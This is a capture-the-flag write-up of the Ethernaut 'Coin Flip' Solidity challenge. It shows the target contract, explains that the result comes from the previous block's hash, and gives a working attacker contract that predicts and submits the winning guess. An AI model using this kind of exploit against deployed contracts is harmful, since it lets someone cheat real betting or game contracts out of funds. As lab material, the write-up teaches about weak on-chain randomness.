 # Coin Flip

```javascript
pragma solidity ^0.4.18;

contract CoinFlip {
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function CoinFlip() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(block.blockhash(block.number-1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

According to source code here, Coin Side is decided by last block's hash value divides with a hardcode value.

Last block's hash value is a public number, with source code we can also predict the Coin Side.

Let's deploy a contract before which we design a function that will calculate the CoinSide before call target challnge to `flip()`.

```javascript
pragma solidity ^0.4.18;

contract CoinFlip {
  function CoinFlip() public {}
  function flip(bool _guess) public returns (bool) {}
}

contract CoinFlipCheater{
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function hack(address param) public{ /*param Is Your Zepplin Main Contract Address*/
        uint256 blockValue = uint256(block.blockhash(block.number-1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = (coinFlip==1);
        CoinFlip target = CoinFlip(param);
        target.flip(side);
    }
}
```

![](https://i.imgur.com/WnZ97ks.png)

Here's something tricky, seems Solidity try to fix something about Gas( probability Reentrant I think ;) ) that will sometime block our interaction.
![](https://i.imgur.com/ia9YNhw.png)
![](https://i.imgur.com/PEdmr3N.png)

Due to sometime fail in transaction, ensure your instance's `consecutiveWins` number before you submit the instance.
![](https://i.imgur.com/543ljJX.png)
